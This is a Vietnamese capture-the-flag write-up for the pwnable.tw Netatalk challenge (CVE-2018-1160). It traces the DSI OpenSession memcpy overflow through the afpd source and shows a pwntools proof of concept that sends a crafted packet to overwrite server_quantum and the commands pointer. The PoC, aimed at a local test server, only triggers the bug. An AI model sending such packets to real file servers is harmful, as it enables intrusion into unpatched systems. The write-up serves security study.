# [pwnable.tw] - CVE-2018-1160



- Chúng ta được cung cấp phiên bản cũ của Netatalk (cụ thể là netatalk 3.1.11) chứa lỗ hổng CVE-2018-1160.
- Một thông tin nữa khá quan trọng khi tiến hành khai thác remote là phiên bản máy chủ chạy thử thách `Linux ubuntu 4.9.0-x86_64-linode79`.

## A. CHALLENGE 

- _Netatalk là gì ?_ (Mình lấy nguyên định nghĩa trên wikipedia).



> Đơn giản thì `Netatalk` là một ứng dụng giúp chúng ta chia sẻ file qua mạng giữa hệ thống Unix (Ubuntu,...) và hệ thống MacOS bằng cách cung cấp cùng giao thức AFP. Trong đó `AFP - Apple Filing Protocol` là giao thức mạng độc quyền của Apple để phân phối file qua mạng, là sự thay thế của Apple cho các giao thức `Server Message Block (SMB)` và `Network File System (NFS)`.

### [1] Binary Mitigations. 

- Tất cả các biện pháp bảo vệ được bật và kèm theo ASLR của hệ thống (Ảnh hưởng đến xác định địa chỉ các thư viện của chương trình).



### [2] Setup Run and Debug. 

- __RUN:__
   * Chúng ta được cung cấp hai thư viện, một là `libatalk.so.18` - thư viện biên dịch gồm các hàm được code phục vụ của chương trình, hai là `lib.so` - đây là `libc-2.27.so` của Ubuntu 18.04. Tiến hành **pwninit** patch **libc-2.27.so** vào chương trình.
   * Ngoài ra còn 1 file cấu hình `afp.conf` gồm port chạy service, thời gian khi ngắt kết nối với service, số lượng kết nối tối đa và thời gian chờ.
   * Thực thi trong môi trường Ubuntu 18.04: 
   
   ```bash
   LD_PRELOAD=./libatalk.so.18 LD_LIBRARY_PATH=./ ./afpd -d -F ./afp.conf
   ```

- __DEBUG:__
   * Sau khi khởi chạy service, tìm id process chương trình `sudo netstat -nap | grep 5566`
   ```bash
   tcp6       0      0 :::5566                 :::*               LISTEN      <idprocess>/./afpd
   ```
   * Tắt yêu cầu quyền khi debug process để sử dụng plugin debug và tiến hành debug service.
   ```bash
   $ echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
   $ gdb -p <idprocess> -q
   gdb> set follow-fork-mode child
   gdb>
   ```
## B. OVERVIEW

- [Source code netatalk v3.1.11](https://sourceforge.net/projects/netatalk/files/netatalk/3.1.11/) .

### [1] Vulnerability Analysis.

#### [a] BUG (./libatalk/dsi/dsi_opensess.c)

```c
/* /netatalk-3.1.11/libatalk/dsi/dsi_opensess.c */
/* OpenSession. set up the connection */
void dsi_opensession(DSI *dsi)
{
  uint32_t i = 0; /* this serves double duty. it must be 4-bytes long */
  int offs;

  if (setnonblock(dsi->socket, 1) < 0) {
      LOG(log_error, logtype_dsi, "dsi_opensession: setnonblock: %s", strerror(errno));
      AFP_PANIC("setnonblock error");
  }

  /* parse options */
  while (i < dsi->cmdlen) {
    switch (dsi->commands[i++]) {
    case DSIOPT_ATTNQUANT:
/////////////////////////////////////////////////////////////////////////////////////    
      memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]); // <= BUG
////////////////////////////////////////////////////////////////////////////////////
      dsi->attn_quantum = ntohl(dsi->attn_quantum);

    case DSIOPT_SERVQUANT: /* just ignore these */
    default:
      i += dsi->commands[i] + 1; /* forward past length tag + length */
      break;
    }
  }
  ...
}
```

- Bug nằm ở dòng được comment xung quanh, trong đó `dsi->commands` là một pointer, nó chỉ đến một string là dữ liệu do người dùng có thể kiểm soát, vì vậy `memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i])` gây ra overflow do kích thước `dsi->commands[i]` là ký tự và có giá trị lớn nhất là 255 byte (character 0xff) so với 4 byte của biến `dsi->attn_quantum`.

#### [b] STRUCT (./include/atalk/dsi.h)

- __DSI__
   * `Struct DSI`, chúng ta có thể thấy rằng các biến chúng ta có thể ghi đè là `datasize`, `server_quantum`, `serverID`, `clientID`, `commands` và mảng ký tự `data[]`. 
   * **Note:** Trong đó biến pointer `commands` đặc biệt quan trọng, sẽ được phân tích kỹ trong mục `[c] Analysis Follow => BUG`.


```c
#define DSI_DATASIZ       65536

/* child and parent processes might interpret a couple of these
 * differently. */
typedef struct DSI {
    struct DSI *next;             /* multiple listening addresses */
    AFPObj   *AFPobj;
    int      statuslen;
    char     status[1400];
    char     *signature;
    struct dsi_block        header;
    struct sockaddr_storage server, client;
    struct itimerval        timer;
    int      tickle;            /* tickle count */
    int      in_write;          /* in the middle of writing multiple packets,
                                   signal handlers can't write to the socket */
    int      msg_request;       /* pending message to the client */
    int      down_request;      /* pending SIGUSR1 down in 5 mn */

    uint32_t attn_quantum, datasize, server_quantum; // 12 byte
    uint16_t serverID, clientID;                    // 4 byte
    uint8_t  *commands; /* DSI recieve buffer */
    uint8_t  data[DSI_DATASIZ];    /* DSI reply buffer */
    size_t   datalen, cmdlen;
    off_t    read_count, write_count;
    uint32_t flags;             /* DSI flags like DSI_SLEEPING, DSI_DISCONNECTED */
    int      socket;            /* AFP session socket */
    int      serversock;        /* listening socket */

    /* DSI readahead buffer used for buffered reads in dsi_peek */
    size_t   dsireadbuf;        /* size of the DSI readahead buffer used in dsi_peek() */
    char     *buffer;           /* buffer start */
    char     *start;            /* current buffer head */
    char     *eof;              /* end of currently used buffer */
    char     *end;

#ifdef USE_ZEROCONF
    char *bonjourname;      /* server name as UTF8 maxlen MAXINSTANCENAMELEN */
    int zeroconf_registered;
#endif

    /* protocol specific open/close, send/receive
     * send/receive fill in the header and use dsi->commands.
     * write/read just write/read data */
    pid_t  (*proto_open)(struct DSI *);
    void   (*proto_close)(struct DSI *);
} DSI;
```

- __dsi_block__
    * DSI được sử dụng để giao tiếp giữa client và AFP server. Tất cả DSI đều chứa DSI header có dạng cấu trúc như sau được định nghĩa trong code chương trình để xử lý.
    * Chúng ta sẽ làm rõ hơn cấu trúc này trong mục `trigger bug` ở phần `Idea Exploit`. 

```c
#define DSI_BLOCKSIZ 16
struct dsi_block {
    uint8_t dsi_flags;       /* packet type: request or reply */
    uint8_t dsi_command;     /* command */
    uint16_t dsi_requestID;  /* request ID */
    union {
        uint32_t dsi_code;   /* error code */
        uint32_t dsi_doff;   /* data offset */
    } dsi_data;
    uint32_t dsi_len;        /* total data length */
    uint32_t dsi_reserved;   /* reserved field */
};
```

#### [c] Analysis Follow => BUG.

**+) Bắt đầu từ main.c (./etc/afpd/main.c)**

- Hàm `main()` bắt đầu các thao tác khởi tạo bao gồm phân tích file config, khởi tạo socket, khởi tạo struct DSI,... Sau đó gọi hàm `dsi_start()` - đây là nơi xử lý yêu cầu và lỗ hổng xuất hiện khi đi vào nhánh `LISTEN_FD`.

```c
...
for (int i = 0; i < asev->used; i++) {
            if (asev->fdset[i].revents & (POLLIN | POLLERR | POLLHUP | POLLNVAL)) {
                switch (asev->data[i].fdtype) {

                case LISTEN_FD:
                //////////////////////////////////////////////////////////////////////////////////////
                    if ((child = dsi_start(&obj, (DSI *)(asev->data[i].private), server_children))) {
                /////////////////////////////////////////////////////////////////////////////////////
                        if (!(asev_add_fd(asev, child->afpch_ipc_fd, IPC_FD, child))) {
                            LOG(log_error, logtype_afpd, "out of asev slots");

                            /*
                             * Close IPC fd here and mark it as unused
                             */
                            close(child->afpch_ipc_fd);
                            child->afpch_ipc_fd = -1;

                            /*
                             * Being unfriendly here, but we really
                             * want to get rid of it. The 'child'
                             * handle gets cleaned up in the SIGCLD
                             * handler.
                             */
                            kill(child->afpch_pid, SIGKILL);
                        }
                    }
                    break;

                case IPC_FD:
                    child = (afp_child_t *)(asev->data[i].private);
                    LOG(log_debug, logtype_afpd, "main: IPC request from child[%u]", child->afpch_pid);

...
```

**+) dsi_start() (./etc/afpd/main.c).**

- Hàm `main` gọi `dsi_start()`, trước tiên `dsi_start()` sẽ gọi hàm `dsi_getsession()` để nhận TCP session, phân tích message và sau đó gọi hàm `afp_over_dsi()` để xử lý nội dung session.

```c
static afp_child_t *dsi_start(AFPObj *obj, DSI *dsi, server_child_t *server_children)
{
    afp_child_t *child = NULL;

////////////////////////////////////////////////////////////////////////////////////
    if (dsi_getsession(dsi, server_children, obj->options.tickleval, &child) != 0) {
////////////////////////////////////////////////////////////////////////////////////
        LOG(log_error, logtype_afpd, "dsi_start: session error: %s", strerror(errno));
        return NULL;
    }

    /* we've forked. */
    if (child == NULL) {
        configfree(obj, dsi);
        /////////////////////////////////////////
        afp_over_dsi(obj); /* start a session */
        ////////////////////////////////////////
        exit (0);
    }

    return child;
}
```

**+) dsi_getsession() (./libatalk/dsi/dsi_getsess.c).**

- Hàm này mở DSI session, nhận message từ `TCP socket` và lưu vào `struct DSI`. Trước tiên hàm này gọi `pid = dsi->proto_open(dsi)` để nhận và xử lý `TCP message`. Tùy thuộc vào giá trị trả về, nếu là `parent process` thì quay lại và tiếp tục giám sát, nếu là `child process` thì tiếp tục xử lý DSI theo giá trị của `dsi->header.dsi_command` (`struct dsi_block` header;).
- Nếu `dsi->header.dsi_command` là `DSIFUNC_OPEN` - (0x4), thì dsi_opensession() được gọi để khởi tạo DSI session - đây là hàm có bug đã nói ở trên.

```c
/*!
 * Start a DSI session, fork an afpd process
 *
 * @param childp    (w) after fork: parent return pointer to child, child returns NULL
 * @returns             0 on sucess, any other value denotes failure
 */
int dsi_getsession(DSI *dsi, server_child_t *serv_children, int tickleval, afp_child_t **childp)
{
  pid_t pid;
  int ipc_fds[2];  
  afp_child_t *child;

 ...
////////////////////////////////////////////////////////////////////////
  switch (pid = dsi->proto_open(dsi)) { /* in libatalk/dsi/dsi_tcp.c */
//////////////////////////////////////////////////////////////////////
  case -1:
    /* if we fail, just return. it might work later */
    LOG(log_error, logtype_dsi, "dsi_getsess: %s", strerror(errno));
    return -1;

    ......

    dsi->proto_close(dsi);
    *childp = child;
    return 0;
  }
  
  ......

  switch (dsi->header.dsi_command) {
  case DSIFUNC_STAT: /* send off status and return */
    ......

/////////////////////////////////////////////////////////////////////////////
  case DSIFUNC_OPEN: /* setup session */
    /* set up the tickle timer */
    dsi->timer.it_interval.tv_sec = dsi->timer.it_value.tv_sec = tickleval;
    dsi->timer.it_interval.tv_usec = dsi->timer.it_value.tv_usec = 0;
    dsi_opensession(dsi); // <= BUG =>
    *childp = NULL;
    return 0;
///////////////////////////////////////////////////////////////////////////
  default: /* just close */
    LOG(log_info, logtype_dsi, "DSIUnknown %d", dsi->header.dsi_command);
    dsi->proto_close(dsi);
    exit(EXITERR_CLNT);
  }
}
```

**+) dsi_tcp_open() (./libatalk/dsi/dsi_tcp.c)**

- `dsi_tcp_init` - (./libatalk/dsi/dsi_tcp.c) khởi tạo gán `dsi->proto_open = dsi_tcp_open;`.
- Đầu tiên, hàm này gọi hàm `fork()` để tạo `child process` mới và thực thi logic sau trong `child process`: 
   * Đầu tiên đọc `DSI header` từ TCP session đến `dsi->header` (struct dsi_block header;).
   * Sau đó đọc nội dung `DSI payload` vào địa chỉ được chỉ tới = pointer `dsi->commands` (`dsi->commands` được khởi tạo trong function `dsi_init_buffer`, malloc(server_quantum) là DSI_SERVQUANT_DEF, 0x100000L => __là một địa chỉ mmap__).

```c
/* Point protocol specific functions to tcp versions */
int dsi_tcp_init(...){
   ...
   dsi->proto_open = dsi_tcp_open;
   dsi->proto_close = dsi_tcp_close;
   ...
}
static struct itimerval itimer;
/* accept the socket and do a little sanity checking */
static pid_t dsi_tcp_open(DSI *dsi)
{
    pid_t pid;
    SOCKLEN_T len;

    len = sizeof(dsi->client);
    dsi->socket = accept(dsi->serversock, (struct sockaddr *) &dsi->client, &len);

#ifdef TCPWRAP
    {
        struct request_info req;
        request_init(&req, RQ_DAEMON, "afpd", RQ_FILE, dsi->socket, NULL);
        fromhost(&req);
        if (!hosts_access(&req)) {
            LOG(deny_severity, logtype_dsi, "refused connect from %s", eval_client(&req));
            close(dsi->socket);
            errno = ECONNREFUSED;
            dsi->socket = -1;
        }
    }
#endif /* TCPWRAP */

    if (dsi->socket < 0)
        return -1;

    getitimer(ITIMER_PROF, &itimer);
   ////////////////////// fork child process //////////////////////////////////
    if (0 == (pid = fork()) ) { /* child */
        static struct itimerval timer = {{0, 0}, {DSI_TCPTIMEOUT, 0}};
        struct sigaction newact, oldact;
        uint8_t block[DSI_BLOCKSIZ];
        size_t stored;
   ////////////////////////////////////////////////////////////////////////
        /* reset signals */
        server_reset_signal();

#ifndef DEBUGGING
        /* install an alarm to deal with non-responsive connections */
        newact.sa_handler = timeout_handler;
        sigemptyset(&newact.sa_mask);
        newact.sa_flags = 0;
        sigemptyset(&oldact.sa_mask);
        oldact.sa_flags = 0;
        setitimer(ITIMER_PROF, &itimer, NULL);

        if ((sigaction(SIGALRM, &newact, &oldact) < 0) ||
            (setitimer(ITIMER_REAL, &timer, NULL) < 0)) {
            LOG(log_error, logtype_dsi, "dsi_tcp_open: %s", strerror(errno));
            exit(EXITERR_SYS);
        }
#endif

        dsi_init_buffer(dsi); 
        // (dsi->commands = malloc(dsi->server_quantum)) == NULL
        //  giá trị ban đầu của server_quantum là DSI_SERVQUANT_DEF, 0x100000L

        /* read in commands. this is similar to dsi_receive except
         * for the fact that we do some sanity checking to prevent
         * delinquent connections from causing mischief. */

//////////// Đọc dsi vào block
        /* read in the first two bytes */
        len = dsi_stream_read(dsi, block, 2);
        if (!len ) {
            /* connection already closed, don't log it (normal OSX 10.3 behaviour) */
            exit(EXITERR_CLOSED);
        }
        if (len < 2 || (block[0] > DSIFL_MAX) || (block[1] > DSIFUNC_MAX)) {
            LOG(log_error, logtype_dsi, "dsi_tcp_open: invalid header");
            exit(EXITERR_CLNT);
        }

        /* read in the rest of the header */
        stored = 2;
        while (stored < DSI_BLOCKSIZ) {
            len = dsi_stream_read(dsi, block + stored, sizeof(block) - stored);
            if (len > 0)
                stored += len;
            else {
                LOG(log_error, logtype_dsi, "dsi_tcp_open: stream_read: %s", strerror(errno));
                exit(EXITERR_CLNT);
            }
        }

///////////////// Gán dữ liệu từ DSI header cho dsi-header/////////////////////
        dsi->header.dsi_flags = block[0];
        dsi->header.dsi_command = block[1];
        memcpy(&dsi->header.dsi_requestID, block + 2,
               sizeof(dsi->header.dsi_requestID));
        memcpy(&dsi->header.dsi_data.dsi_code, block + 4, sizeof(dsi->header.dsi_data.dsi_code));
        memcpy(&dsi->header.dsi_len, block + 8, sizeof(dsi->header.dsi_len));
        memcpy(&dsi->header.dsi_reserved, block + 12,
               sizeof(dsi->header.dsi_reserved));
        dsi->clientID = ntohs(dsi->header.dsi_requestID);

        /* make sure we don't over-write our buffers. */
        dsi->cmdlen = min(ntohl(dsi->header.dsi_len), dsi->server_quantum);

/////////////// Đọc nội dung payload vào buffer được chỉ tới bởi pointer dsi->commands.
        stored = 0;
        while (stored < dsi->cmdlen) {
            len = dsi_stream_read(dsi, dsi->commands + stored, dsi->cmdlen - stored);
            if (len > 0)
                stored += len;
            else {
                LOG(log_error, logtype_dsi, "dsi_tcp_open: stream_read: %s", strerror(errno));
                exit(EXITERR_CLNT);
            }
        }

        /* stop timer and restore signal handler */
#ifndef DEBUGGING
        memset(&timer, 0, sizeof(timer));
        setitimer(ITIMER_REAL, &timer, NULL);
        sigaction(SIGALRM, &oldact, NULL);
#endif

        LOG(log_info, logtype_dsi, "AFP/TCP session from %s:%u",
            getip_string((struct sockaddr *)&dsi->client),
            getip_port((struct sockaddr *)&dsi->client));
    }

    /* send back our pid */
    return pid;
}
```

**+) dsi_opensession() (./libatalk/dsi/dsi_opensess.c) - BUG**

- Sau khi điền dữ liệu có độ dài `dsi->header.dsi_len` và lưu địa chỉ vào ptr `dsi->commands`, rồi quay lại nửa sau của hàm `dsi_getsession()` thực thi case DSIFUNC_OPEN(0x4) gọi `dsi_opensession()` - hàm có BUG.
- Trước tiên, hàm `dsi_opensession()` xác định logic xử lý dựa trên nội dung của `commands[0]`. Nếu là DSIOPT_ATTNQUANT(0x1), nó sẽ thực thi memcpy lấy `commands[1]` làm kích thước và sao chép nội dung sau `commands[2]` vào &dsi->attn_quantum biến thành viên của struct DSI (4 byte). 
- Sau đó chương trình sẽ xây dựng DSI message mới tới địa chỉ được chỉ tới bởi `dsi->commands`, và trả về giá trị `server_quantum` cho client.
   * **Đặc biệt lưu ý: trả về giá trị server_quantum cho client.**
```c
/* /netatalk-3.1.11/include/atalk/dsi.h */
#define DSIOPT_ATTNQUANT 0x01   /* attention quantum */\

/* /netatalk-3.1.11/libatalk/dsi/dsi_opensess.c */
/* OpenSession. set up the connection */
void dsi_opensession(DSI *dsi)
{
  uint32_t i = 0; /* this serves double duty. it must be 4-bytes long */
  int offs;

    ......

  /* parse options */
  while (i < dsi->cmdlen) {
    switch (dsi->commands[i++]) {
    case DSIOPT_ATTNQUANT:
    ///////////////////////////////////////////////////////////////////////////////
      memcpy(&dsi->attn_quantum, dsi->commands + i + 1, dsi->commands[i]); //BUG//
    /////////////////////////////////////////////////////////////////////////////
      dsi->attn_quantum = ntohl(dsi->attn_quantum);

    case DSIOPT_SERVQUANT: /* just ignore these */
    default:
      i += dsi->commands[i] + 1; /* forward past length tag + length */
      break;
    }
  }

  /* let the client know the server quantum. we don't use the
   * max server quantum due to a bug in appleshare client 3.8.6. */
  dsi->header.dsi_flags = DSIFL_REPLY;
  dsi->header.dsi_data.dsi_code = 0;
  /* dsi->header.dsi_command = DSIFUNC_OPEN;*/

  dsi->cmdlen = 2 * (2 + sizeof(i)); /* length of data. dsi_send uses it. */

  /* DSI Option Server Request Quantum */
  dsi->commands[0] = DSIOPT_SERVQUANT;
  dsi->commands[1] = sizeof(i);
  i = htonl(( dsi->server_quantum < DSI_SERVQUANT_MIN || 
	      dsi->server_quantum > DSI_SERVQUANT_MAX ) ? 
	    DSI_SERVQUANT_DEF : dsi->server_quantum);
  memcpy(dsi->commands + 2, &i, sizeof(i));

  /* AFP replaycache size option */
  offs = 2 + sizeof(i);
  dsi->commands[offs] = DSIOPT_REPLCSIZE;
  dsi->commands[offs+1] = sizeof(i);
  i = htonl(REPLAYCACHE_SIZE);
  memcpy(dsi->commands + offs + 2, &i, sizeof(i));
  dsi_send(dsi);
}
```

- Sau đó quay trở lại hàm `dsi_start()` và tiếp tục luồng thực thi tiếp theo (được đánh dấu bằng mũi tên):

```c
static afp_child_t *dsi_start(AFPObj *obj, DSI *dsi, server_child_t *server_children)
{
    afp_child_t *child = NULL;

    if (dsi_getsession(dsi, server_children, obj->options.tickleval, &child) != 0) {
        LOG(log_error, logtype_afpd, "dsi_start: session error: %s", strerror(errno));
        return NULL;
    }

    /* we've forked. */
    if (child == NULL) {
        configfree(obj, dsi);
        afp_over_dsi(obj); /* start a session */	<--------
        exit (0);
    }

    return child;
}
```

**+) afp_over_dsi() - (./etc/afpd/afp_dsi.c)**

- Tới đây luồng thực thi phía sau này sẽ sử dụng đến `dsi->commands` mà chúng ta đã ghi đè ở trên và dẫn tới ghi tùy ý.
- Hàm `afp_over_dsi()` chịu trách nhiệm tiếp tục đọc các message từ socket hiện tại và gọi các chức năng xử lý khác nhau tùy theo message để thực hiện tiếp giao thức AFP = cách Gọi hàm `dsi_stream_receive()`.

```c
/* set TCP_NODELAY */
   int flag = 1;
   setsockopt(dsi->socket, SOL_TCP, TCP_NODELAY, &flag, sizeof(flag));

   ipc_child_state(obj, DSI_RUNNING);

   /* get stuck here until the end */
   while (1) {
       if (sigsetjmp(recon_jmp, 1) != 0)
           /* returning from SIGALARM handler for a primary reconnect */
           continue;

       /* Blocking read on the network socket */
       cmd = dsi_stream_receive(dsi);
```

**+) dsi_stream_receive() - (./libatalk/dsi/dsi_stream.c)**

- Hàm `dsi_stream_receive()` đọc message từ socket hiện tại và lưu vào struct
    * Đọc DSI header và lưu nó trong struct dsi->header.
    * __Sau đó đọc DSI payload tiếp theo và lưu nó vào bộ đệm được chỉ định bởi *dsi->commands và độ dài được chỉ định bởi dsi->cmdlen.__

```c
/* Receiving DSIWrite data is done in AFP function, not here */
if (dsi->header.dsi_data.dsi_doff) {
    LOG(log_maxdebug, logtype_dsi, "dsi_stream_receive: write request");
    dsi->cmdlen = dsi->header.dsi_data.dsi_doff;
}

// Sau đó đọc DSI payload tiếp theo và lưu nó vào bộ đệm được chỉ định bởi *dsi->commands và độ dài được chỉ định bởi dsi->cmdlen.
if (dsi_stream_read(dsi, dsi->commands, dsi->cmdlen) != dsi->cmdlen)
  return 0;

LOG(log_debug, logtype_dsi, "dsi_stream_receive: DSI cmdlen: %zd", dsi->cmdlen);

return block[1];
```

- Sử dụng BUG để khai thác là câu lệnh `dsi_stream_read(dsi, dsi->commands, dsi->cmdlen)`.

> Hàm **`dsi_stream_read(dsi, dsi->commands, dsi->cmdlen)`** kết hợp với việc pointer **`*dsi->commands`** bị ghi đè do bug trong hàm **`dsi_opensession()`** thành một địa chỉ có thể ghi => __Dẫn tới ta có thể ghi tùy ý vào bất cứ phân vùng nào có thể ghi__.


### [2] Idea Exploit.

#### [a] PoC.

- Tham khảo định nghĩa [Data Stream Interface](https://en.wikipedia.org/wiki/Data_Stream_Interface#Protocol) .

- Có thể thấy rằng dsi_header trong PoC là trường tuân theo giao thức DSI và payload trong giao thức là commands trong PoC.

- Ta sẽ xây dựng packet gửi tới server thỏa mãn luồng thực thi sinh ra bug (đáp ứng hai điều kiện của luồng thực thi là `DSIFUNC_OPEN(0x4)` và `DSIOPT_ATTNQUANT(0x1)`).



- Khai báo trong struct `uint32_t attn_quantum, datasize, server_quantum;`.

- Dữ liệu bị ghi đè từ `attn_quantum`, với length là 12 ký tự (32bit * 3 / 8 = 12 byte) nó sẽ ghi đè biến `server_quantum = 4 byte b'cccc'` và như có nói ở trên thì biến này sẽ nằm trong chuỗi giá trị trả về client (do chưa đủ độ dài nên không ghi đè ptr *commands = chuỗi vô nghĩa => không gây lỗi chương trình => vẫn có giá trị trả về client từ server).




- Để tiến hành DEBUG và xem cấu trúc bị ghi đè ta sẽ thay đổi PoC.py để ghi đè `*ptr commands` = `b'abcdefgh'` và tăng từ 12 ký tự lên 16 ký tự (bao gồm thêm `uint16_t serverID, clientID;`). 

```bash
$ sudo netstat -nap | grep 5566
$ gdb -p <idprocess> -q
   gdb> set follow-fork-mode child
   gdb> b dsi_opensession+139
   gdb> c
```

- [PoC.py](./PoC.py)

```python
#!/usr/bin/env python3
from pwn import *

context(endian="big", log_level="debug")
io = remote("127.0.0.1", "5566")

# payload after the DSI header
# copy to &dsi->attn_quantum
# dsi_opensession | commands = opt(1 byte) + len_payload(1 byte) + payload(n byte)
dsi_opensession = b""
dsi_opensession += b"\x01"  # case: dsi->commands[i++] = DSIOPT_ATTNQUANT
dsi_opensession += p8(0x18)  # dsi->commands[i] is length data, use copy
dsi_opensession += b"aaaabbbbccccddee"
dsi_opensession += b"abcdefgh"
# string overwrite ptr *dsi->commands = character
# => Segmentation fault => server not reply data to clients.

dsi_header = b""
dsi_header += b"\x00"  # dsi_flags     | request flag = 0
dsi_header += b"\x04"  # dsi_command   | DSIFUNC_OPEN(0x4) = openSession
dsi_header += b"\x00\x01"  # dsi_requestID | request id
dsi_header += p32(0)  # dsi_data
dsi_header += p32(len(dsi_opensession))  # dsi_len       | commands len
dsi_header += p32(0)  # dsi_reversed

dsi_header += dsi_opensession  # payload

io.send(dsi_header)
context = io.recv()
log.success("Data recv: " + str(context))
io.close()
```

- Khi DEBUG, mình tìm được biến `*ptr commands` ghi đè = `b'abcdefgh'` => gây lỗi chương trình ở instruction `0x7f7f65feafbb <dsi_opensession+139> | movzx  eax, byte ptr [rcx + r9]` và không có giá trị trả về client từ server (Các bạn có thể thử).

